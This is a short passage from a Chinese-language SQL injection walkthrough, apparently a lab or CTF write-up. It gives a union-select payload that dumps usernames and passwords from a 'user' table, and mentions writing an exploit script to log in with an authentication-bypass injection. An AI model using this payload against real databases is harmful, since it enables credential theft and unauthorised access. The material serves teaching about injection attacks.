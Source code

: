     - ![](./img/sql_col.png)
  - 攻击获取数据（用户名及用户密码）： `' union select 1,group_concat(name),group_concat(password),4,5 from user#`
    - ![](./img/sql_data.png)


### 撰写 EXP 脚本

- 执行 SQL 注入攻击，利用万能语句登录服务器
